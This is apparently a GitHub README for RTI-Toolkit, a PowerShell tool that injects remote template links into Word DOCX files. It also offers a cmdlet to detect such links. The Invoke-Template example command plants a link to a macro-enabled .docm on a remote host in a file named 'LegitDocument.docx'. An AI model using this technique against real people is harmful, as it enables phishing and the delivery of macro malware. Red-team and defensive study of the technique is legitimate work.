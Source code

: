 # RTI-Toolkit

Remote Template Injection Toolkit

## Description

RTI-Toolkit is an open-source PowerShell toolkit for Remote Template Injection attack. This toolkit includes a PowerShell script named `PS-Templator.ps1` which can be used from both an attacking and defensive perspective.

The following tables presents the main modules (cmdlets) of `PS-Templator.ps1`:

| Cmdlet | Description | Prespective |
| -------|:-----------:|:-----------:|
| [Invoke-Template](#invoke-template) | Implements remote template links within default Office Word templates  | attacking |
| [Invoke-Regular](#invoke-regular) | Implements remote template links within regular Office Word documents without template | attacking |
| [Invoke-Identify](#invoke-identify) | Indentifies remote template links within Office Word docx documents with/without template | defensive |

⚠️ `PS-Templator.ps1` supports only DOCX files.

## License

This tool is licensed under the [![License: MIT](https://img.shields.io/badge/MIT-License-yellow.svg)](LICENSE).

## Table of Contents
- [RTI-Toolkit](#rti-toolkit)
  - [Description](#description)
  - [License](#license)
  - [Table of Contents](#table-of-contents)
  - [Remote Template Injection (RTI)](#remote-template-injection-rti)
  - [Installation](#installation)
  - [cmdlets](#cmdlets)
    - [Invoke-Template](#invoke-template)
      - [Invoke Template Example](#invoke-template-example)
    - [Invoke-Regular](#invoke-regular)
    - [Invoke-Identify](#invoke-identify)
  - [References](#references)

## Remote Template Injection (RTI)

Remote Template Injection (RTI) in the context of Microsoft Office refers to a specific type of security vulnerability that can be exploited through malicious templates in Office documents (e.g., Word, Excel, PowerPoint).

For example, in a DOCX file, the content is stored in XML format within the archive, and some of these XML files may reference external resources or templates. Attackers can indeed manipulate these XML files to insert malicious links or content that can potentially exploit vulnerabilities or deceive users. 

This is a Macro-Based attack.

## Installation

To load `PS-Templator.ps1` as a module into memory, run the following command:
```
Import-Module .\PS-Templator.ps1
```

:information_source: `PS-Templator.ps1` works without the necessity of installing any additional dependencies.<br /><br />
:information_source: `PS-Templator.ps1` works as PowerShell module.

## cmdlets

### Invoke-Template

Invoke-Template is a cmdlet that implements remote template links within default Office Word templates.

#### Invoke-Template Example

Assuming that you have a default Word template, one like them:

![All Words Templates](/Pictures/All-Word-Templates.png)

Saved as, for example, 'Name.docx':

![Default Word Template Document](/Pictures/Default-Word-Template.png)

If you use `Invoke-Template` cmdlet you can insert a malicious link within this docx

```
Invoke-Template -InputDoc Name.docx -Link "https://192.168.1.3:8080/Doc1.docm" -Output C:\Users\User\Desktop\LegitDocument.docx
```

Outcome:

![Invoke-Template-1](/Pictures/Invoke-Template-1.png)

As you can see, the Invoke-Template module keeps a backup of the original document and provides the full path to the malicious document.

From debugging prespective, if you connvert the malicious docx to zip archive and go into /word/_rels/settings.xml.rels, you can see the malicious link:

![Invoke-Template-Debug](/Pictures/Invoke-Template-Debug.png)

### Invoke-Regular

### Invoke-Identify

## References
- [ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros)
- [dmcxblue.gitbook.io](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1221-template-injection)
- [john-woodman.com](https://john-woodman.com/research/vba-macro-remote-template-injection/)
- [remoteInjector GitHub John Woodman](https://github.com/JohnWoodman/remoteInjector)
- [Invoke-Templator GitHub Outflanknl](https://github.com/outflanknl/Invoke-Templator)
- [attack.mitre.org](https://attack.mitre.org/techniques/T1221/)